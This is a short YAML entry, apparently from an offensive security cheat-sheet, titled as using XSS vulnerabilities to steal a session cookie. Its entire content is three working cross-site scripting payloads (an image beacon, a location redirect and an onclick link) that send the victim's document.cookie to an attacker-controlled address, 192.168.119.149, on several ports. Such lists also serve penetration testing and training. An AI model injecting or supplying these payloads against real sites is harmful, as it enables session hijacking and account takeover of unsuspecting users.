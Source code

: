```yaml
---
description: Use XSS vulnerabilities to steal a session cookie
functions:
  gain-access:
    - description: cookie stealers
      code: |
        <script>new Image().src="http://192.168.119.149:9999/cool.jpg?output="+document.cookie;</script>
        <script>document.location='http://192.168.119.149/'+document.cookie;</script>
        <a onclick="document.location='http://192.168.119.149:8080/'+document.cookie;">Click me</a>
resources: |
  
---
```

